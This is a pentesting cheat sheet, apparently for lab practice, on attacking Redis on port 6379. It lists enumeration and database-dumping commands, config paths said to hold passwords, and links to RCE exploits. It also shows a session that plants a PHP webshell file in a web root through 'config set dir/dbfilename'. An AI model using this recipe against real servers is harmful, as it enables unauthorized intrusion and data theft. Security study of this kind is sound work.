 ## 6379-Redis
+ open source(BSD licensed), in-memory data structure store, used as a database, cache and message broker (from here). 
+ By default and commonly Redis uses a plain-text based protocol, also implement ssl/tls. 
+ run Redis with [ssl/tls](https://fossies.org/linux/redis/TLS.md)
+ [hacktricks redis](https://book.hacktricks.xyz/pentesting/6379-pentesting-redis)
+ exploit rce: webshell/ssh/crontab/load redis module
  > pg-wombo, load redis module , [exploit](https://github.com/n0b0dyCN/redis-rogue-server) 
  > rce -ssh, [exploit](https://github.com/Avinash-acid/Redis-Server-Exploit)
  > rce -crontab
  > redis hacking [tips](https://web.archive.org/web/20191201022931/http://reverse-tcp.xyz/pentest/database/2017/02/09/Redis-Hacking-Tips.html)
+ load redis module via ftp/web/ssh/smb
+ redis conf file, /etc/redis/redis.conf, /etc/systemd/system/redis.service

```bash
# banner
PORT     STATE SERVICE  VERSION
6379/tcp open  redis   Redis key-value store 4.0.9

# redis config file
## contains the password
/etc/redis/redis.conf

## read and write dir, configured
/etc/systemd/system/redis.service

# auto enum
nmap --script redis-info -sV -p 6379 <IP>
msf> use auxiliary/scanner/redis/redis_server

# manual enum
nc -vn 10.10.10.10 6379
redis-cli -h 10.10.10.10 # sudo apt-get install redis-tools

# often use command
info
client list
config get * 

## dump db
select 1
keys *
get [key]
```

### redis webshell php
+ write file to web dir and get shell
+ write file to redis dir, then get shell

```bash
# webshell rce
root@Urahara:~# redis-cli -h 10.85.0.52
10.85.0.52:6379> config set dir /usr/share/nginx/html
OK
10.85.0.52:6379> config set dbfilename redis.php
OK
10.85.0.52:6379> set test "<?php phpinfo(); ?>"
OK
10.85.0.52:6379> save
OK

## reverse shell, write file to get shell; pg-readys
## if no write permission to web dir.
```